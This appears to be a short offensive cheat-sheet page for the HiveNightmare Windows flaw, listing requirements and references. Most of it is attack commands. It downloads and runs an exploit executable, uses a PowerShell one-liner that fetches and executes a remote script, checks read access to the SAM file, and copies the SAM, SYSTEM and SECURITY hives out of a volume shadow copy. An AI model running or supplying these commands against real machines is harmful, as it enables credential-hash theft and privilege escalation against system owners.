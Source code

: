 ### Requirements
```
- system protection must be in enabled state
- system must have at least one shadow copy
```

### Exploit
```
iwr https://github.com/GossiTheDog/HiveNightmare/releases/download/0.6/HiveNightmare.exe -OutFile HiveNightmare.exe
.\HiveNightmare.exe
```

### Alternative
```
iex((New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/WiredPulse/Invoke-HiveNightmare/main/Invoke-HiveNightmare.ps1'))
```

### Manually - check for read permissions
```
icacls C:\Windows\system32\config\sam
```

### Copy shadow copy (sometimes HarddiskVolumeShadowCopy2 or HarddiskVolumeShadowCopy3)
```
foreach($i in @("SYSTEM","SECURITY","SAM")){[System.IO.File]::Copy("\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\$i", "C:\temp\$i")};
```

### References
https://github.com/GossiTheDog/HiveNightmare  
https://github.com/WiredPulse/Invoke-HiveNightmare  

